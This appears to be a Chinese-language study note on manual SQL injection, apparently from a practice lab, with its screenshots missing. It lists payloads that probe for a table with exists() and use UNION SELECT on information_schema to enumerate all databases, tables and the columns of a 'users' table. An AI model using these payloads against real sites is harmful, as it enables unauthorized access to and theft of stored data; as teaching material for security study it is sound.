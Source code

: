 ![9662165537501c21a89fbd85e9dfec96.png](en-resource://database/509:1)
![c2d97fd712f3a01264c555f2fc9acee6.png](en-resource://database/568:1)
![0f730e51e5b27b5e67d1fa1a389bc611.png](en-resource://database/570:1)



### 使用exists函数验证列名
如果有报错说明该列表不存在，如果没有报错，说明该列表存在
```sql
```
1' and exists (select ** from users)#
```

![b9f18e4cb88b47ae1b51a7a41026d04f.png](en-resource://database/511:0)



### 使用sql视窗直接爆库，表，字段


information_schema 系统库保存了所有字符集，查询该库已爆库；表；字段

查询所有库名
```sql
1' union select 1,group_concat(schema_name) from information_schema.schemata#
```

![aa876d22bbeef89ee8dfc86cc539c591.png](en-resource://database/515:1)


查询所有表名
```sql
1' union select 1,group_concat(table_name) from information_schema.tables#
```

![4b7007bb2e9fdf4e02f826a23e20f95d.png](en-resource://database/519:1)


根据当前库名查询表名
```sql
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```


![fe71415e88e8132e1ad616c93d606deb.png](en-resource://database/521:1)




根据查询到的表名users 查询字段
```sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```
![2785d02f2f31a6ff4d5a25a514f848c6.png](en-resource://database/523:1)
